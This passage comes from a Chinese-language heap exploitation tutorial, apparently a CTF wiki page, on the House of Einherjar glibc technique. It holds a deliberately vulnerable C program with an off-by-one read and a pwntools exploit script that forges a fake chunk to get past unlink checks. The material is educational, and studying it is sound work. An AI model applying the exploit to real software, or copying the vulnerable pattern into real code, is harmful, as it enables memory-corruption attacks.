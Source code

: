 ![](./figure/einherjar_overflowing.png)

#### 溢出後

**假設我們將 p1的 prev_size 字段設置爲我們想要的目的 chunk 位置與p1的差值**。在溢出後，我們釋放p1，則我們所得到的新的 chunk 的位置 `chunk_at_offset(p1, -((long) prevsize))` 就是我們想要的 chunk 位置了。

當然，需要注意的是，由於這裏會對新的 chunk 進行 unlink ，因此需要確保在對應 chunk 位置構造好了fake chunk 以便於繞過 unlink 的檢測。

![](./figure/einherjar_after_overflow.png)

### 攻擊過程示例

可以進行 House Of Einherjar 攻擊的代碼：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    char* s0 = malloc(0x200);　//構造fake chunk
    char* s1 = malloc(0x18);
    char* s2 = malloc(0xf0);　
    char* s3 = malloc(0x20); //爲了不讓s2與top chunk 合併
    printf("begin\n");
    printf("%p\n", s0);
    printf("input s0\n");
    read(0, s0, 0x200); //讀入fake chunk
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```

攻擊代碼如下：

```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是爲了繞過
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```
